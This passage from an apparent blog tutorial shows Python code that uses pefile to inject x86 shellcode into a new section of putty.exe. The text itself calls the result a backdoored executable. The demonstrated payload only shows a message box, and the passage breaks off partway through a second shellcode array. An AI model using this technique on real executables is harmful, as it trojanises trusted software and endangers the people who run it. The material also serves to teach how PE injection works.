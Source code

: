 ```python
                  b"\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
                  b"\x24\x52\xe8\x5f\xff\xff\xff\x68\x69\x74\x79\x58\x68"
                  b"\x65\x63\x75\x72\x68\x6b\x49\x6e\x53\x68\x42\x72\x65"
                  b"\x61\x31\xdb\x88\x5c\x24\x0f\x89\xe3\x68\x65\x58\x20"
                  b"\x20\x68\x20\x63\x6f\x64\x68\x6e\x20\x75\x72\x68\x27"
                  b"\x6d\x20\x69\x68\x6f\x2c\x20\x49\x68\x48\x65\x6c\x6c"
                  b"\x31\xc9\x88\x4c\x24\x15\x89\xe1\x31\xd2\x6a\x40\x53"
                  b"\x51\x52\xff\xd0\xB8\xF0\x50\x45\x00\xFF\xD0")


# Write the shellcode into the new section
pe.set_bytes_at_offset(raw_offset, shellcode)
pe.write(exe_path)
```

This backdoored executable should display a message box and give back the control to the main application.

![image-center](/images/2017-12-29-code-injection-with-python/messagebox.png){: .align-center}{:width="250px"}

### Source Code

Here is the source code of the script with some comments.

```python
import pefile
import mmap
import os


def align(val_to_align, alignment):
    return ((val_to_align + alignment - 1) / alignment) * alignment

exe_path = "putty.exe"
shellcode = bytes(b"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9"
                  b"\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"
                  b"\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"
                  b"\xff\xe1\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x28"
                  b"\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34"
                  b"\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84"
                  b"\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24"
                  b"\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b"
                  b"\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c"
                  b"\x61\xc3\xb2\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e"
                  b"\x0e\xec\x52\xe8\x9f\xff\xff\xff\x89\x45\x04\xbb\x7e"
                  b"\xd8\xe2\x73\x87\x1c\x24\x52\xe8\x8e\xff\xff\xff\x89"
                  b"\x45\x08\x68\x6c\x6c\x20\x41\x68\x33\x32\x2e\x64\x68"
                  b"\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89\xe6\x56"
```